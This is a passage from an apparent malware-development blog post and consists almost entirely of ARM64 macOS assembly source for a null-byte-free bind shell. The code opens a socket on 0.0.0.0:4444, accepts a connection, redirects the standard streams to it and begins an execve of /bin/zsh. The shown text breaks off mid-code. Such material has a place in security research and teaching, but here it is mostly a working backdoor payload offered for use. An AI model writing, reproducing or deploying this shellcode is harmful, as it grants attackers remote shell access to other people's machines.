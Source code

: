 So, full source code look like this `hack2.s`:    

```nasm
; hack2.s
; bind shell ARM (no null bytes)
; author: @cocomelonc
; https://cocomelonc.github.io/macos/2025/09/01/malware-mac-11.html

.global _start
.align 4

_start:
  ; create a socket
  mov     x3, #0x0201                 ; x3 = 0x201
  lsr     x0, x3, #8                  ; x0 = 2 (pf_inet)
  lsr     x1, x0, #1                  ; x1 = 1 (sock_stream)
  mov     x2, xzr                     ; x2 = 0 (ipproto_ip)
  mov     x16, #97                    ; bsd syscall: socket (97)
  svc     #0xffff                     ; exec syscall
  lsl     x19, x0, #0                 ; store socket descriptor in x19

  ; bind socket to local address 0.0.0.0:4444
  mov     x2, #16                     ; address_len = 16
  mov     x4, #0x0200                 ; sin_family = af_inet (2)
  movk    x4, #0x5c11, lsl#16         ; sin_port = htons(4444) = 0x5c11
  stp     x4, xzr, [sp, #-16]!        ; push sockaddr_in to stack
  add     x1, sp, xzr                 ; x1 -> sockaddr_in
  mov     x16, #104                   ; bsd syscall: bind (104)
  svc     #0xffff                     ; exec syscall

  ; listen for incoming connections
  mov     x0, x19                     ; x0 = socket descriptor
  mov     x1, xzr                     ; backlog = 0
  mov     x16, #106                   ; bsd syscall: listen (106)
  svc     #0xffff                     ; exec syscall

  ; accept connection
  mov     x0, x19                     ; x0 = socket descriptor
  mov     x1, xzr                     ; no client addr needed
  mov     x2, xzr                     ; no addr len needed
  mov     x16, #30                    ; bsd syscall: accept (30)
  svc     #0xffff                     ; syscall run
  lsl     x20, x0, #0                 ; save accepted socket to x20

  ; redirect stdin, stdout, stderr to accepted socket
  mov     x16, #90                    ; bsd syscall: dup2 (90)
  mov     x1, #0x0201                 ; target fd = 2 (stderr)
  lsr     x1, x1, #8                  ; x1 = 2
  svc     #0xffff                     ; dup2(x20, 2)

  mov     x0, x20                     ; restore client socket
  mov     x1, #0x0101                 ; target fd = 1 (stdout)
  lsr     x1, x1, #8                  ; x1 = 1
  svc     #0xffff                     ; dup2(x20, 1)

  mov     x0, x20                     ; restore client socket
  lsr     x1, x1, #1                  ; x1 = 0 (stdin)
  svc     #0xffff                     ; dup2(x20, 0)

  ; final: execve("/bin/zsh", ["/bin/zsh"], null)
  mov     x3, #0x622f                 ; "/bin/zsh" (part 1)
  movk    x3, #0x6e69, lsl#16         ;
  movk    x3, #0x7a2f, lsl#32         ;
  movk    x3, #0x6873, lsl#48         ;
```